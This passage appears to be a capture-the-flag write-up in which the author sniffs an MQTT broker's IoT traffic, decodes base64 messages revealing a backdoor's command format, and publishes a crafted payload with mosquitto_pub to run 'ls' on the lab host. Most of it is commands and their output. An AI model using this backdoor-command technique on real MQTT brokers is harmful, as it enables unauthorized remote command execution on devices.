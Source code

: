 ```r
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
storage/thermostat {"id":10037350582510015336,"temperature":23.817501}
livingroom/speaker {"id":17774124095598642456,"gain":46}
patio/lights {"id":17019901905888515669,"color":"RED","status":"OFF"}
kitchen/toaster {"id":4827872121869012879,"in_use":true,"temperature":151.87283,"toast_time":291}
storage/thermostat {"id":5813655514586686632,"temperature":23.610136}
yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
```

After run that we get a new base64 encode text. Let's decode it as usual
```r
bugged echo SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk= | base64 --decode
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})%                                                 ➜  bugged 
```

We get a whole different format that comprises of id, cmd and an arg.
Based on the second sub_topic, we will fill out the format and use the ``whoami`` command for the ``arg``.
something like this: ``{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}``

Let us save to a file called ``base64encoded.txt`` encode it to base64.
```r
nano base64encoded.txt 
base64 base64encoded.txt
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNN
RCIsICJhcmciOiAibHMifQo=
```

So let's both both on two separate terminals and capture the output
first terminal
```r
mosquitto_pub -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub -h 10.10.211.128 -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo="
```

Second terminal:
```r
mosquitto_sub -h 10.10.211.128 -t "#" -v
storage/thermostat {"id":2336703387415567708,"temperature":23.934895}
patio/lights {"id":12114664026872428624,"color":"RED","status":"OFF"}
frontdeck/camera {"id":805224080488088493,"yaxis":114.80798,"xaxis":95.28137,"zoom":3.1519709,"movement":false}
livingroom/speaker {"id":5948856983848466350,"gain":65}
XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo=
storage/thermostat {"id":5512785026372212484,"temperature":24.083206}
U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9

```
We get the output as: ``eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9``. Lets decode ir.
